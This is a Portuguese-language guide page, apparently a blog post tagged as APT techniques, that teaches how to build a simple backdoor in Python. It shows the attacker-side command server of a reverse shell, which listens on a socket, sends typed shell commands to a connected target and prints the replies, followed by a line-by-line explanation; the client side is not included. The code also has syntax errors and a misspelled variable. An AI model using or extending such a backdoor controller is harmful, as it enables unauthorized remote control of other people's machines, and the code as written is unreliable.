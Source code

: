 ```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```

>[!NOTE]
> Explicação mais detalhada do código para qualquer um entender
> um pouco de programação

# como configurar um servidor de socket

```s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* s -> cria um novo objeto de socket
* socket.AF_INET -> especifica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM -> indica que o socket será do tipo TCP

```s.bind(('localhost', 8080))```
* o método bind associa o socket a um endereço IP e uma porta específicos
* Nesse caso, o servidor foi vinculado ao endereço localhost e à porta 8080

```s.listen(1)```
* o método listen coloca o socket em modo de escuta, aguardando conexões de clientes.
* o parâmetro 1 especifica o número máximo de conexões que podem ser enfileiradas. Nesse caso, o servidor aceitará uma conexão à espera de outra.

# como estabelecer conexões de clientes no servidor socket

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```conn, addr = s.accept()```
* o método accept aguarda até que um cliente se conecte ao servidor. quando o cliente se conecta, accept retorna dois valores:
  
<ins>conn</ins>: um objeto de socket que permite a comunicação com o cliente.
<ins>addr</ins>:  uma tupla contendo o endereço Ip e a porta do cliente conectado.
  
```print(f"[+] Conectado a {addr}")```
* imprime uma mensagem no console indicando que a conexão foi estabelecida e mostra o endereço do cliente (addr)

# como estabelecer um looping que permite ao servidor enviar comandos a um cliente conectado e processar as respostas

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```command = input("Shell >")```
* solicita ao usuário que insira um comando (input), exibindo o promt "shell >"

```if command == 'exit'```
* veridica se o comando inserido pelo usuário é "exit"

```conn.send(b'exit')```
* se o comando for "exit", o servidor envia uma mensagem ao cliente para indicar que a conexão deve ser encerrada. A mensagem é enviada como bytes.

  ```conn.close```
  * fecha a conexão com o cliente.
 
  ```break```
  * sai(termina) o loop, interrompendo a execução
   
```else```
  * se o comando não for "exit", o servidor executa o bloco de código a seguir.

```conn.send(command.encode())```
* o comando e inserido é enviado ao cliente após ser convertido para bytes com encode().

```output = conn.recv(1024)```
* o servidor aguarda e recebe a resposta do cliente, lendo até 1024 bytes de dados

```print(output.decode())```
* a resposta recebida é convertida de bytes de volta para uma string decode() e é impressa no terminal do servidor.
